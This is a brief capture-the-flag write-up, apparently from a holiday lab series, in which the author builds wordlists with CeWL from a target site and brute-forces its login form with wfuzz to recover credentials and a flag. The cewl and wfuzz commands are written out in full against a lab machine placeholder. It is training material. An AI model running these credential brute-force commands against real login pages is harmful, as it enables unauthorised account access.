

# Day 4: Baby, it's CeWLd outside

Ah, it gets more interesting today. I didn't know [CeWL](https://www.kali.org/tools/cewl/). It's used to generate a custom wordlist very quickly. Here it's used for generating wordlists with possible passwords and usernames.

```
$ cewl -d 2 -m 5 -w passwords.txt http://$MACHINE_IP --with-numbers
$ cewl -d 0 -m 5 -w usernames.txt http://$MACHINE_IP/team.php --lowercase
``` 

These commands are given in the assignment text. Then, the wordlists are used with wfuzz.

```
$ wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://$MACHINE_IP/login.php -d "username=FUZZ&password=FUZ2Z"
```

This got me a valid username & password within a few minutes. Then, the flag is found within the mailbox of that user.


